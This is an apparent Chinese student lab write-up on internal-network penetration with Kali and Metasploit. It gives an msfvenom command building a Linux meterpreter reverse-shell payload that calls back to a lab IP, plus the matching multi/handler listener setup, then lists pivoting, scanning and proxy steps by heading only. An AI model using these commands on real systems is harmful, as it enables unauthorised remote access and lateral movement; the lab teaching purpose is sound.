




# 网安实践：内网渗透和攻击

## 实验环境

* kali

* metasploit

## 实验步骤

1. 在靶机上生成meterpreter.elf文件
` msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=4422 -f elf > meterpreter.elf`


2. 上传


3. 在metasploit里设置如下并`run -j`等待
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <攻击者主机IP>
set lport <端口>
run -j
```
注意，这里的IP和端口要和生成.elf文件时设置的一样

5. 在靶机里运行meterpreter


6. 连接成功


7. 升级shell


8. 查看route，arp， ipconfig



9. 设置pivot路由


10. 扫描



11. 设置代理
参照教学课件和视频


`cat /etc/proxychains4.conf` 
确认有以下配置

并且配置浏览器代理


12. 成功访问第一层

